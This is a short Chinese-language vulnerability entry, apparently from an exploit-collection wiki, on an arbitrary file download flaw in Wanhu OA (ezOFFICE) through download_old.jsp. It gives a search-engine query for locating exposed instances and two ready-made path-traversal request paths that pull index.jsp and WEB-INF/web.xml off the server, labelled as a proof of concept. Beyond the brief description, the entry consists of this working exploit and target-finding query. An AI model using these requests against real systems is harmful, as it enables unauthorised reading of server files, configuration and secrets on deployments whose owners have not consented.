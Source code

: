 # 万户OA download_old.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_old.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174600224.png)

验证POC

```javascript
/defaultroot/download_old.jsp?path=..&name=x&FileName=index.jsp
/defaultroot/download_old.jsp?path=..&name=x&FileName=WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1646041831774-193db33c-c438-459e-918a-bdae1a1a1270.png)